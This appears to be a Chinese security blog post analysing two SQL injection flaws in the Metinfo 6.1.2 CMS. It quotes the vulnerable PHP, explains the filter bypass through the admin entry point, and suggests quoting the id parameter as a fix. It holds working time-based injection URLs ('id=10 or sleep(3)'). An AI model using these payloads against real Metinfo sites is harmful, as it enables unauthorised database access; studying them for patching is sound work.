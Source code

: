 ```yaml
---
title: Metinfo6.1.2 两处sql注入分析
date: 2018-10-16 08:19:32
tags:
	- 漏洞分析
	- sql注入
---
```


# 前言

Metinfo算是我审的第一个cms吧，前期感觉算是一个写的不怎么好的cms，伪全局变量的问题更是不知道引发了多少次漏洞。还记得那些网上的审计教程，说到变量覆盖这个问题都是以metinfo来举例的。但后期逐渐来了次mvc的大换血，框架更新了下，变量问题也得到了相应调整，也算是逐渐在变好吧。

说了那么多，由于是第一个接触的cms问题，最近被爆出洞也就跟着一起复现了下（我好菜啊。。反正我就挖不到

# SQL注入1

漏洞出现在`app/system/message/web/message.class.php:37`的`add`函数中

```php
public function add($info) {
    global $_M;
    if(!$_M[form][id]){
        $message=DB::get_one("select * from {$_M[table][column]} where module= 7 and lang ='{$_M[form][lang]}'");
        $_M[form][id]=$message[id];
    }
    $met_fd_ok=DB::get_one("select * from {$_M[table][config]} where lang ='{$_M[form][lang]}' and  name= 'met_fd_ok' and columnid = {$_M[form][id]}");
    $_M[config][met_fd_ok]= $met_fd_ok[value];
    ...
```

可以看到`{$_M[form][id]}`没有被单引号包裹起来，从而可能产生注入。

但是是个cms就会存在字符串过滤，来看下其中的过滤语句`app/system/include/function/common.func.php:51`

```php
function daddslashes($string, $force = 0) {
	!defined('MAGIC_QUOTES_GPC') && define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());
	if(!MAGIC_QUOTES_GPC || $force) {
		if(is_array($string)) {
			foreach($string as $key => $val) {
				$string[$key] = daddslashes($val, $force);
			}
		} else {
			if(!defined('IN_ADMIN')){
				$string = trim(addslashes(sqlinsert($string)));
			}else{
				$string = trim(addslashes($string));
			}
		}
	}
	return $string;
}
```

`sqlinsert`函数里过滤了相当多的sql关键字，而且只要匹配到出现，参数就直接返回空（相当暴力了

这样，就要想办法绕过`!defined('IN_ADMIN')`限制，全局搜索一下这个定义的地方，就可以看到是在`admin/index.php`中

```php
define('IN_ADMIN', true);
//接口
$M_MODULE='admin';
if(@$_GET['m'])$M_MODULE=$_GET['m'];
if(@!$_GET['n'])$_GET['n']="index";
if(@!$_GET['c'])$_GET['c']="index";
if(@!$_GET['a'])$_GET['a']="doindex";
@define('M_NAME', $_GET['n']);
@define('M_MODULE', $M_MODULE);
@define('M_CLASS', $_GET['c']);
@define('M_ACTION', $_GET['a']);
require_once '../app/system/entrance.php';
```



但是直接去访问`add`模块的时候，就显示

```
add function no permission load!!!
```

是由于其只能调用带`do`的方法，这样，恰好在`add`函数上方，就存在一个

```php
public function domessage() {
    global $_M;
    if($_M['form']['action'] == 'add'){
    $this->check_field();
    $this->add($_M['form']);
}	...
```

恰好调用了`$this->add($_M['form']);`,`$_M['form']`里保存的就是POST和GET传入的参数

然后就是构造payload，这里需要绕过`$this->check_field()`的验证，只要抓取正常留言的参数，就可以绕过，于是payload就变成了如下

```
http://localhost/metinfo6.1.2/admin/index.php
?m=web
&n=message
&c=message
&a=domessage
&action=add
&para137=admin
&para186=a@a.com
&para138=15555555555
&para139=admin
&para140=admin
&id=10 or sleep(3)
```

这里我直接把sql语句die了出来

![](Metinfo6-1-2-两处sql注入分析\3.png)

![](Metinfo6-1-2-两处sql注入分析\1.png)

可以看到这里直接拼接到了sql语句中，不过需要控制好sleep的时间，跟数据条数有关，不过这里只是用于验证了

而且这里验证码的判断是在执行这条语句之后，否则，正常情况是要通过验证码判断才能执行语句

```php
$met_fd_ok=DB::get_one("select * from {$_M[table][config]} where lang ='{$_M[form][lang]}' and  name= 'met_fd_ok' and columnid = {$_M[form][id]}");
$_M[config][met_fd_ok]= $met_fd_ok[value];
if(!$_M[config][met_fd_ok])okinfo('javascript:history.back();',"{$_M[word][Feedback5]}");
if($_M[config][met_memberlogin_code]){
    if(!load::sys_class('pin', 'new')->check_pin($_M['form']['code'])){
        okinfo(-1, $_M['word']['membercode']);
    }
}
```

实际情况中，漏洞原作者提供了一个更好的布尔盲注方式，可以参考https://bbs.ichunqiu.com/thread-46687-1-1.html

至于修复的话，就主要就是把`id`变量用单引号引起来就可以了

# SQL注入2

这个漏洞和之前的洞很相似了，但是存在限制条件

漏洞发生在`app/system/feedback/web/feedback.class.php:39`

```php
public function add($info) {
    global $_M;
    $query="select * from {$_M[table][config]} where name ='met_fd_ok' and columnid='{$_M[form][id]}' and lang='{$_M[form][lang]}'";

    $met_fd_ok=DB::get_one($query);
    $_M[config][met_fd_ok]=$met_fd_ok[value];
    if(!$_M[config][met_fd_ok]){
    	okinfo(-1, $_M['word']['Feedback5']);
    }
    if($_M[config][met_memberlogin_code]){
         if(!load::sys_class('pin', 'new')->check_pin($_M['form']['code']) ){
            okinfo(-1, $_M['word']['membercode']);
         }
    }
    if($this->checkword() && $this->checktime()){
        foreach ($_FILES as $key => $value) {
            if($value[tmp_name]){
            	$ret = $this->upfile->upload($key);//上传文件
            if ($ret['error'] == 0) {
                    $info[$key]=$ret[path];
                } else {
                    okinfo('javascript:history.back();',$_M[word][opfailed]);
            	}
            }
    }
    $user = $this->get_login_user_info();
    $fromurl= $_M['form']['referer'] ? $_M['form']['referer'] : HTTP_REFERER;
    $ip=getip();

    $feedcfg=DB::get_one("select * from {$_M[table][config]} where lang ='{$_M[form][lang]}'and name='met_fd_class' and columnid ='{$_M[form][id]}'");
    $_M[config][met_fd_class]=$feedcfg[value];
    $fdclass2="para".$_M[config][met_fd_class];
    $fdclass=$_M[form][$fdclass2];
    $title=$fdclass." - ".$_M[form][fdtitle];
    $addtime=date('Y-m-d H:i:s',time());
    $met_fd_type=DB::get_one("select * from {$_M[table][config]} where lang ='{$_M[form][lang]}' and  name= 'met_fd_type' and columnid = {$_M[form][id]}");
	....
```

还是最后一句的sql语句中没有单引号保护，但是可以看到前面有一个比较头疼的限制就是验证码

```php
if($_M[config][met_memberlogin_code]){
    if(!load::sys_class('pin', 'new')->check_pin($_M['form']['code']) ){
    	okinfo(-1, $_M['word']['membercode']);
    }
}
```

我这里图个方便，测试的时候就直接把验证码部分注释了

还是和之前一样的调用方式，就可以调用到这个`add`方法

需要注意的几点是，`lang=cn`还有`id=44`

最后的payload

```
http://localhost/metinfo6.1.2/admin/index.php
?m=web
&n=feedback
&c=feedback
&a=dofeedback
&lang=cn
&id=44 or sleep(0.01)
&action=add
```

![](Metinfo6-1-2-两处sql注入分析\2.png)

实际当中就需要每次输入验证码，还有个120秒的请求限制





